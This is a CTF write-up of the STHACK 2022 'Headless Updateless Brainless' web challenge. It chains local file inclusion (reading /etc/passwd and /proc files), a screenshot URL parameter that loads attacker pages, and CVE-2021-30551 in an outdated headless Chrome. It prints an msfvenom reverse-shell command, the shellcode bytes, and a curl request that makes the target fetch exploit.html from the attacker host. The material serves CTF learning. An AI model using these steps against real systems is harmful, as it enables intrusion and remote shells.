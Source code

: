 # IIntroduction

During the [STHACK 2022](https://sthack.fr) (CTF event \@Bordeaux
France), **[Laluka](https://twitter.com/TheLaluka)** has created few web
challenges including the **Headless Updateless Brainless** challenge
that had a \"pwn\" exploitation step.

To be honest, this challenge was not resolved by our team during the
CTF. Got stuck at the last final exploitation step. After chatting with
Laluka, he agreed to give us an access and try one more time to solve
it.

And this time, it worked great!

# Recon

## Main feature

The challenge URL displays the following page:

![](img/chall_web_first_page-1.png)

The parameter **file** seems very interesting.

## Local File inclusion

The first try was to inject some local files into the parameter file,
like \"/etc/passwd\".

![](img/CHALL_LFI_3-3.png)

As you can see, there is a user **chrome**. Maybe an hint for one next
step!

Next file: **/proc/mounts**

![](img/CHALL_LFI_0-1.png)

There is the file **flag_random_name\_\*** in the root directory. But it
is not reachable directly with this first vulnerability. You will understand why exactly after leaking another file.

Also, there is a **/site** as well. There source code could be stored
here.

Next file: **/proc/self/cmdline**. This file is interesting to
understand what the comand line of the current process is doing:

![](img/CHALL_LFI_1-1.png)

This is actually \"node chall.js\". The filename is **chall.js** which
may be located in the /site directory. Let\'s leak it using the same
vulnerability.

The bellow part of the source code shows why it is not possible to reach
the flag file using the first vulnerability.

![](img/FLAG_FORBID-1.png)

By analyzing the rest of the source code, we can notice a new endpoint
which is **\"/coolish-unguessable-feature\"**.

![](img/CHALL_LFI_4-1.png)

Let\'s reach it:

![](img/PART2_GET2-1.png)

Reading the source code, a new parameter **\"url\"** can be added to the
URL:

![](img/LEAK_CODE_1-1.png)

The parameter needs to start with **\"http\"** in order to take a
screenshot of the remote page. The **takeScreenshot** function is the
following:

![](img/LEAK_CODE_2-2-1024x169.png)

The parameter **url** is controlled by the user. Let\'s try to make the
application reach ourself using the following payload:

``` {.wp-block-syntaxhighlighter-code .code}
http://headless-updateless-brainless.sthack.fr/coolish-unguessable-feature?url=http://IP:PORT/test
```

![](img/CHALL_BROWSER_OUTDATED-1024x214.png)

We retrieve the Chrome version which seems very interesting (and not up to date).

## Browser vulnerability - Recon

So the browser used Chrome on version **89.0.4389.72**.

A quick (**no, kidding, it took times!**) research on
<https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=chrome> lead to the
following CVE:

**CVE-2021-30551** - Type confusion in V8 in Google Chrome prior to
91.0.4472.101 allowed a remote attacker to potentially exploit heap
corruption via a crafted HTML page.

Searching a Proof-of-Concept, the following link helped us to exploit
the vulnerability: <https://github.com/xmzyshypnc/CVE-2021-30551>.

Only the shellcode at the end of the PoC needs to be modified.

## Browser vulnerability - (Local exploitation)

### Building the shellcode - (Local exploitation)

Using msfvenom helped to build the shellcode:

``` {.wp-block-syntaxhighlighter-code .code}
msfvenom -p linux/x64/shell_reverse_tcp -a x64 --platform linux LHOST=192.168.122.1 LPORT=4444 -f hex

#Output: 6a2958996a025f6a015e0f05489748b90200115cc0a87a01514889e66a105a6a2a580f
#056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05
```

Let\'s change the shellcode by using a vim trick to add 0x before the
hexa value, and a comma:

![](img/SC_MSFVENOM-1-1024x100.png)

This will take two values of hexa, add a prefix **,0x** to the pattern
found from the regex, which gives:

``` {.wp-block-syntaxhighlighter-code .code}
,0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,0x02,
0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,0x2a,0x58,
0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,0xf6,0x6a,0x3b,
0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x52,
0x57,0x48,0x89,0xe6,0x0f,0x05
```

Anyway, the new shellcode line is:

``` {.wp-block-syntaxhighlighter-code .code}
let shellcode = [0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,
0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,
0x2a,0x58,0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,
0xf6,0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,
0x48,0x89,0xe7,0x52,0x57,0x48,0x89,0xe6,0x0f,0x05];
```

### Remote Code Execution - (Local exploitation)

Let\'s the application get our .html file:

``` {.wp-block-syntaxhighlighter-code .code}
curl http://192.168.122.141:8082/coolish-unguessable-feature?url=http://:192.168.122.1:8000/exploit.html
```

The exploit.html file is reached which lead to exploit the vulnerability
that gives us a shell:

![](img/RCE-1.png)

Thus the flag was\... Oops, cannot say, did not get the one during the
night!

Thanks **[Laluka](https://twitter.com/TheLaluka)** for the challenge and
the [STHACK](https://sthack.fr) for the event!

The challenges have been made public and can be found here:
[https://gitlab.com/TheLaluka/headless-updateless-brainless](https://gitlab.com/TheLaluka/headless-updateless-brainless)

